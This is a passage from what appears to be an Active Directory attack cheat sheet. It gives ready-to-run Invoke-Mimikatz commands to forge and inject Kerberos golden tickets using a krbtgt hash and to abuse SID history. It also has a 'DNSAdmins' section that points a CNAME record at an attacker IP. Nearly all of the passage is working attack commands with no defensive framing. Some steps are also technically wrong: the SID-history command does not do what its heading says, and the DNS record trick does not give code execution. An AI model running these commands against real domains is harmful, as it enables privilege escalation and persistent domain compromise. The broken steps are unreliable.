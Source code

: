 * **Use the Golden Ticket**:

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt golden.kirbi"'
```

#### 9.9 SID History Abuse&#x20;

* **Add SID History to a User Account**:

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch /user:<UserName> /domain:<Domain> /sid:<SID_History>"'
```

* **Authenticate Using SID History**:

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:<UserName> /domain:<Domain> /sid:<Domain_SID> /krbtgt:<NTLM_Hash> /rc4:<RC4_Hash> /ticket:golden.kirbi"'
```

#### 9.10 Abuse DNSAdmins Group for Exploitation&#x20;

* **Abuse DNSAdmins for Remote Code Execution**:

```powershell
Add-DnsServerResourceRecordCName -Name "MaliciousRecord" -HostNameAlias "<attack_ip>" -ZoneName "<Domain>"
Invoke-Command -ScriptBlock { nslookup MaliciousRecord.<Domain> }
```

* **Clean Up DNS Record**:

```powershell
Remove-DnsServerResourceRecord -Name "MaliciousRecord" -ZoneName "<Domain>"
```
